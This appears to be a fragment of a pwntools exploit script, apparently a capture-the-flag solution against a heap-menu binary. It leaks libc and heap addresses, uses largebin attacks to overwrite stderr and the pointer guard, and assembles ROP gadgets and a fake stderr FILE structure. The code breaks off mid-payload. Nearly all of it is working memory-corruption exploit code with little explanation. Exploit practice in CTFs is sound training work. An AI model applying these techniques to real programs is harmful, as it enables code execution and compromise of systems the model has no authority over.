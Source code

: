 ```python
add(5,0x430)#(7)(8)->pointer guard
add(6,0x420)
delet(0)
delet(2)
show(0)
sendit()

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b"\x00"))-0x1f2cc0
stderr_addr = libc_base + libc.sym['stderr']
fixed_heap_fdbk = libc_base + 0x1f30c0
setcontex61 = libc_base + 0x50bfd
point_guard = libc_base + tls_offset + 0x30
log.success("libc_base = {}".format(hex(libc_base)))
log.success("stderr = {}".format(hex(stderr_addr)))
log.success("setcontex+61 = {}".format(hex(setcontex61)))
log.success("point_guard = {}".format(hex(point_guard)))
add(4,0x410)
edit(2,16,cyclic(16))
show(2)
sendit()

p.recvuntil("daaa")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x880
log.success("heap0_base = {}".format(hex(heap_base)))

#attack stderr
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(stderr_addr-0x20)
edit(2,32,payload)
delet(5)
sendit()
#attack point_guart
add(7,0x430)
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(point_guard-0x20)
edit(2,32,payload)
delet(7)
sendit()
#largbin fix
payload = p64(heap_base+0x1120)+p64(libc_base+0x1f30c0)+p64(heap_base+0x1120)*2
edit(2,32,payload)
payload = p64(libc_base+0x1f30c0)+p64(heap_base+0x880)*3
edit(7,32,payload)
sendit()
#prepare assert
add(8,0x430)
delet(6)
add(9,0x440)
add(10,0x410)
edit(6,0x420,cyclic(0x418)+p64(0x10))
sendit()

gadget = libc_base + 0x0000000000146020
#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
ret = libc_base + 0x000000000002d446
pop_rax = libc_base + 0x00000000000446c0
pop_rdi = libc_base + 0x000000000002daa2
pop_rsi = libc_base + 0x0000000000037c0a
syscall = libc_base + 0x00000000000883b6

#fake stderr
payload = p64(0)*3
payload += p64(0xffffffffffffffff)
payload = payload.ljust(0x78,"\x00")
payload += p64(libc_base + libc.sym['_IO_stdfile_2_lock'])
```